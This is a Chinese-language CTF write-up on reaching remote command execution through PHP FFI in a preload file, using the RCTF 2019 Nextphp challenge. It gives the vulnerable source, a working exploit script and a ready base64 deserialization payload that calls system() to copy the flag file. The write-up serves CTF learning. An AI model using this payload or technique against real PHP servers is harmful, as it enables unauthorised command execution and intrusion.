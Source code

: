 # 利用PHP FFI 预加载执行命令

## FFI

PHP7.4引入了一个扩展:PHP FFI(Foreign Function interface), 引用一段PHP FFI RFC中的一段描述:
>For PHP, FFI opens a way to write PHP extensions and bindings to C libraries in pure PHP. 

是的，FFI提供了高级语言直接的互相调用，而对于PHP来说，FFI让我们可以方便的调用C语言写的各种库。

举个例子，如果想要调用C语言中的system函数，可以使用如下代码：
```php
<?php
$ffi=FFI::cdef("int system(char *command);");
$ffi->system("whoami");
?>
```

## 举例

以[RCTF 2019]Nextphp为例，题目的代码非常简单：

```php
<?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```

相同目录下有```preload.php```，源码如下：
```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'print_r',
        'arg' => '1'
    ];

    //可以进行函数执行
    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        //array_merge把两个数组合并为一个数组
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        
        $this->data = unserialize($payload);
        $this->run();
    }
	//结果输出
    public function __get ($key) {
        //如果$key为ret，就可以输出函数执行返回的结果
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}

```

分析可得上述代码在反序列化的时候会触发```run()```方法，反序列化后可以调用``` __serialize()```方法利用C语言中的```system()```方法完成RCE。

EXP如下：
```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(char *command);'
    ];

    private function run () {
        echo "run<br>";
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }
    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        echo "__construct<br>";
    }
}

$a = new A();
echo base64_encode(serialize($a)); 
```

然后访问payload就是```?a=unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__serialize()['ret']->system('cp /flag /var/www/html');```

上述payload可以将flag移到web目录。

## 总结

为什么不能用一开始的代码进行RCE？因为默认 ffi.enable=preload **且仅在命令行模式和**preload 文件中可用，在本地环境 ffi.enable=preload 模式下，web端也是无法执行 FFI 。将 ffi.enable 设置成 true 后，发现 web 端就可以利用 FFI 了。